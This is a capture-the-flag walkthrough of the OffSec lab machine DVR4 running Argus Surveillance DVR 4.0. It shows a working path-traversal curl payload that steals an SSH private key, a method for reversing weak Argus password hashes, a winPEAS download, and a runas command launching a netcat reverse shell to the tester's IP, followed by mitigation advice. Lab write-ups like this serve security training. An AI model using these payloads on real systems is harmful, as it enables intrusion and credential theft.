


+++ 
draft = false
date = 2025-04-01T13:07:16+01:00
title = "DVR4 Offsec Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Local File Inclusion", "Path Traversal", "Privilege Escalation", "Argus Surveillance DVR 4.0", "Feroxbuster", "RunAs Exploitation", "WinPEAS"]

categories = []
externalLink = ""
series = ["Offsec"]
+++

## DVR4 Offsec Walkthrough


### LFI Vulnerability

Local File Inclusion (LFI) is a security vulnerability in web applications that allows an attacker to access files stored on the server. This failure occurs when an applicationconstructs file paths based on user input without properly validating its contents. As a result, an attacker can manipulate those paths to read sensitive system files and, in some cases, execute malicious code.

Many web applications dynamically load files using functions such as include(), require(), or file_get_contents() in PHP. If the applicationdoes not adequately restrict what a user can enter into the URL, an attacker can exploit this vulnerability.

For example, if an app allows access to different pages using a parameter in the URL such as:

<http://example.com/index.php?file=pagina.html>

And the code-behind includes the file without validation:
```php
<?php

include($GET['file']);

?>
```
The attacker could modify the file value to upload system files, such as:

    -   http://example.com/index.php?file=/etc/passwd

This would expose sensitive server information, including usernames and critical configurations.

### Consequences of an LFI Attack

Potential consequences of exploiting an LFI vulnerability include:

- Access to sensitive information: An attacker can read files such as server configurations, database credentials, or log files.
- Remote code execution: If the attacker manages to include a file containing malicious code, they could execute commands on the server.
- System compromise: Combined with other vulnerabilities, LFI could allow full control of the affected server.

## Machine exploitation

### 1. Reconnaissance

First, a ping is made to verify connection with the machine:


Figure 1. Ping the victim machine

A bit of a weird TTL is observed, it is usually 64 for Linux machines and 128 for Windows machines.

A nmap SYN scan is run to discover the open ports:

```sh
sudo nmap -sS -T5 -vvv -p- 192.168.150.179 -Pn -oN nmap_inicial
```

Where the parameters mean:

- sS: Escaneo SYN
- T5: Using NMAP Timing Template 5
- vvv: Triple verb for NMAP to display a lotof information
- p-: All ports are scanned
- Pn: Skip host discovery
- ogG: Formato Grep

The result is as follows:


Figure 2. Initial nmap scan.

It can be suspected that it is Windows by open port 445. Second, a more thorough scan is performed only on the open ports to detect which services are running on those ports:

```sh
sudo nmap -sCV -vvv -p22,135,139,445,5040,7680,8080,49664,49665,49666,49667,49668,49669 192.168.150.179 -oN nmap_exhaustive
```

Where the parameters mean:

- sCV: Execution of service detection scripts and their version.
- vvv: Triple verb for NMAP to display a lotof information
- p-: Only open ports are scanned
- oN: Formato normal

The result of the scan is as follows:


Figure 3. Comprehensive nmap scanning.

It can be observed that it has a web server hosted on port 8080. The feroxbuster tool is launched to find subdirectories.
```sh
feroxbuster -u http://192.168.150.179:8080 -x html,htm,php,txt -w /home/kali/SecLists/Discovery/Web-Content/common.txt -n
```


Figure 4. Subdirectory discovery with feroxbuster.

In the meantime, we visited the Webpage on port 8080:


Figure 5. Argus web interface.

This is Argus, a CCTV camera control, access and recording service. It has several sections, among which is the Users tab:


Figure 6. Users tab.

We can see that there are Viewer and Administrator users.


Figure 7. Help tab.

In the Help tab, we can find more information about the service and version: Argus V4.0.

### 2 Initial exploitation

Using the Searchsploit tool, it is searched if there are any vulnerabilities for this service and version:  
```sh
searchsploit argus
```


Illustration 8. Output de Searchsploit

Several exploits are found, but the most interesting is the third: directory traversal to LFI. This is the PoC:


Figure 9. Argus vulnerability PoC.

Running the PoC, it can be seen that the service is vulnerable since we can read the C:\\Windows\\Fsystem.ini file from the host machine:



Figure 10. Exploit Result: LFI

Here we have our LFI! That is, with the command:
```sh
curl “http://VICTIM-IP:8080/WEBACCOUNT. CGI? OkBtn=++Ok++&RESULTPAGE=\[PATH_DEL_ARCHIVO_QUE_QUEREMOS\]&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=”
```

We can read internal server files.

This LFI is possible due to the lack of validation in the input of the RESULTPAGE parameter, allowing a traversal path using %2F sequences (/ in URL encoding). This makes it possible to access files outside the web directory by traversing the file system with .. /.. /.. /.. /, allowing arbitrary system files, such as C:\\Windows\\System.ini, to be read. The vulnerability arises because the applicationdoes not adequately restrict access to paths outside of its allowed directory.

For example, it is interesting to read the id_rsa keys of ssh since we know that this service is running. You need to modify the PoC, which reads the Windows\Fsystem.ini file. The id_rsa key would be found in the "C:\\Users\\\[User\]\\.ssh\\" folder. We know that both the Admin and Viewer user exist, so we'll test with the Viewer user. Also, the PoC omits the beginning "C:\\", so the file we want to read would be "Users\\Viewer\\.ssh\\id_rsa".

This is not all, as the traversal path is still missing: Successively chaining the characters "../", we're pushing directories all the way to the root directory. To do this, you have to make sure that enough are used." /”. The route would be:
```sh
../../../../../../../../../../../../../../../Users\Viewer\.ssh\id_rsa
```

This path must be converted to URL encoding. To do this, we use the CyberChef tool:


Figure 11. CyberChef Tool

Our URL encoded path would be:
```sh
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2F%2E%2F%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2
```

And putting it all together, we created the payload:
```sh
curl “http://192.168.150.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2FUsers%5CViewer%5C%2Essh%5Cid%5Frsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=”
```


Figure 12. id_rsa of the Viewer user.

And voilà, have us the ssh key for the Viewer user! Now you have to save the output to the id_rsa file:
```sh
curl "http://192.168.150.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2FUsers%5CViewer%5C%2Essh%5Cid%5Frsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=" > id_rsa
chmod 600 id_rsa
ssh -i id_rsa Viewer@192.168.150.179
```


Figure 13. Console on the compromised machine.


Figure 14. First flag.

We get the first flag in the local.txt file. The Viewer user has been compromised and can be moved to the next elevation of privilege phase.

### 3 Privilege escalation

We're launching winPEAS, an automated recognition script. To do this, we set up a simple http server with Python in the executable container folder:


Figure 15. Simple http server with python.

With powershell on the victim's terminal we execute the following command:
```sh
wget http://192.168.45.215:5500/winPEAS.exe -OutputFIle winpeas.exe
```

And the file is downloaded to the victim machine. We run the file:


Figure 16. Running WinPEAS

Winpeas has not borne any interesting fruit. These are the users running on the system:


Figure 17. WinPEAS Information.

Searching the internet, the following interesting option has been found:


Illustration 18. Windows Run As.

Source: https://github.com/frizb/Windows-Privilege-Escalation 
That is, you can execute a file or command pretending to be another user:


Illustration 19. Windows Run As.

It may be that the Administrator user does not have a password. We upload the netcat executable to the machine as before, and the following command is executed:
```sh
C:\Windows\System32\runas.exe /env /profile /user:DVR4\Administrator "c:\users\viewer\nc.exe -nc 192.168.45.215 1234 -e cmd.exe"
```

But we need the password of Aministrator. We have to find another way.

Going back to searchsploit:


Illustration 20. Output de searchsploit.

Let's try this. The Python PoC script displays the following:



Figure 21. PoC python script.

1. The file containing the hash is located in "C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini".
2. The script's programmer has not encoded the special characters.

Let's try the Admin hash, going to the specified path. The hash is as follows:


Figure 22. Archive DVRParams.ini

- ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8

Running the PoC with the corresponding hash:


Figure 23. Breaking the weak hash.

The password starts with "14WatchD0g....", but it is incomplete. Indeed, it can be a special character. Let's patch the script by creating a new user on the Argus platform with the name Test and password the list of special characters !@#$%.\_-,&/()=?¿\\


Figure 24. Creation of new username and password of special characters.

But it doesn't work, the hash appears empty. After many tests, it seems that letters must also be put in addition to special characters, so the new password is "test!@#$%.\_-,&/()=?¿\\"

The new hash is:


Figure 25. New hash

- E03BB7409083E03BB398ED3D78A7

And the output of the script is:


Figure 26. Script output.

That is, it does not accept all special characters. We will go one by one then, following the chain:

- test!
- test?
- test$
- test%
- test&

Until we find the hash corresponding to DA84, which is the last one we are missing. It is not necessary to run the script for each case, since we only need to look at the last 4 characters of hash to know the relationship between the hash and the special character. In this way, the hash will have the form "E03BB7409083E03BXXXX", where XXXX is the hash of the special character we are looking for.

- test! -> E03BB7409083E03BB398
- test? -> E03BB7409083E03B57E5
- test$ -> E03BB7409083E03BD9A8 (IT'S THE ONE WE'RE LOOKING FOR)
- test% -> E03BB7409083E03B30F6
- test& -> E03BB7409083E03B DOES NOT ACCEPT THE &

Adding the key-value pair $: D9A8 to the script:


Figure 27. Modified PoC.

Running the script now we have the password of the Administrator user:


Figure 28. Execution of the modified script.

Running now runas.exe with the Admin username and password "14WatchD0g$":


Figure 29. Execution of the runes command.

And in the listener of our machine, we have the reverse shell with user Administrator:


Figure 30. Reverse shell with admin credentials.

And we can get the second flag:


Figure 31. Second flag.

The machine has been compromised.

### 4 Mitigating the LFI vulnerability

To mitigate this vulnerability, it is critical to validate and sanitize user input, ensuring that only files within a specific directory can be requested and avoiding the use of sequences such as .. / or its coded equivalent (%2F.. %2F).

It is recommended to implement a whitelist of accessible files, rather than allowing arbitrary user-provided paths. Also, set appropriate permissions on the server so that the web application does not have access to sensitive system files.

In PHP environments, the open_basedir policy can restrict access to directories outside of the allowed one. In other languages or frameworks, similar mechanisms must be used to define secure paths and block improper access.